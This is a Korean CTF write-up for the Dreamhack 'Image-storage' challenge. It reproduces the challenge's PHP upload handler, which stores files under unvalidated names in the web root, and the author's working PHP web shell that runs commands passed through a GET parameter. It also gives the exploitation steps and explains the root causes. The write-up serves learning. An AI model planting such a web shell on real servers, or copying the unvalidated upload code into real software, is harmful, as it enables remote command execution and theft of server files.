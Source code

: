```yaml
---
title: "[CTF] 드림핵 Image-storage"
date: 2025-09-19 21:00:00 +0900
categories: [CTF, Web]
tags: [CTF, File Vulnerable]
description: "드림핵 Image-storage"
author: "송지민"
toc: true
---
```


## 문제 개요
이번 문제는 간단한 파일 업로드 기능을 가진 웹 애플리케이션이다. 업로드된 파일명을 검증하지 않고 웹 루트의 `./uploads/`에 그대로 저장하기 때문에, 실행 가능한 스크립트를 업로드하면 원격 명령 실행(RCE)으로 이어질 수 있다.

- 업로드 페이지: `/upload.php` (multipart/form-data)
- 핵심 취약점: `$_FILES['file']['name']` 값을 검증 없이 사용해 `./uploads/`에 저장함
- FLAG 위치: `/flag.txt` (서버 내부)

---

## 문제에 제공된 원본 소스코드 전체
아래는 문제에서 제공된 원본 소스코드(사용자가 본 그대로)다.

[index.php]
```html
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
<title>Image Storage</title>
</head>
<body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Image Storage</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="/list.php">List</a></li>
            <li><a href="/upload.php">Upload</a></li>
          </ul>

        </div><!--/.nav-collapse -->
      </div>
    </nav><br/><br/>
    <div class="container">
    	<h2>Upload and Share Image !</h2>
    </div> 
</body>
</html>
```

[upload.php]
```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
<title>Image Storage</title>
</head>
<body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Image Storage</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="/list.php">List</a></li>
            <li><a href="/upload.php">Upload</a></li>
          </ul>
        </div><!--/.nav-collapse -->
      </div>
    </nav><br/><br/><br/>
    <div class="container">
      <form enctype='multipart/form-data' method="POST">
        <div class="form-group">
          <label for="InputFile">파일 업로드</label>
          <input type="file" id="InputFile" name="file">
        </div>
        <input type="submit" class="btn btn-default" value="Upload">
      </form>
    </div> 
</body>
</html>
```

---

## 내가 실제로 푼 방법
소스코드를 보면 핵심은 파일명(`$file['name']`)을 그대로 사용해 `./uploads/`에 저장한다는 점이다. 따라서 웹서버가 해석하는 PHP 파일을 업로드할 수 있다면, 업로드된 파일을 브라우저로 접근해 명령을 실행할 수 있다.

내가 사용한 웹셸(문제풀이용으로 작성한 코드)은 아래와 같다(원문은 내가 이전에 작성한 코드 그대로 기재한다):

```html
<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form><pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?></pre></body></html>
```

위 파일을 `shell.php` 같은 이름으로 업로드했다.

### 내가 취한 입력/절차 요약
1. `/upload.php` 폼을 통해 위 웹셸을 `shell.php`로 업로드
2. 업로드 완료 메시지(예: `Stored in: ./uploads/shell.php`) 확인
3. 브라우저에서 `http://{target}/uploads/shell.php`에 접속
4. 웹 인터페이스에 `cat /flag.txt`를 입력하여 FLAG 획득

---

## 재현 흐름
1. 공격자: `/upload.php`에 multipart/form-data POST로 웹셸 파일 업로드
2. 서버: `move_uploaded_file()`로 `./uploads/shell.php` 저장
3. 공격자: `GET /uploads/shell.php` 접근 → 웹셸 로드
4. 공격자: 웹셸 입력창에 `cat /flag.txt` 실행 → FLAG 출력

---

## 왜 이게 가능했나
- 업로드 파일명 검증 부재: 사용자가 보낸 파일명을 그대로 사용해 파일을 저장했다.
- 확장자/MIME/콘텐츠 검사 없음: `.php` 같은 실행 가능한 스크립트 업로드를 막지 않았다.
- 업로드 디렉토리에서 스크립트 실행 허용: 업로드 파일을 브라우저로 접근할 때 웹서버가 PHP를 해석했다.

이 세 가지가 결합되어 웹셸 업로드 → 실행 → 민감 파일 접근이 가능했다.

---

## 마무리
문제는 매우 전형적인 파일 업로드 취약점 사례였다. 소스코드와 간단한 웹셸 업로드만으로도 `/flag.txt`를 읽어내어 FLAG를 획득할 수 있었다.
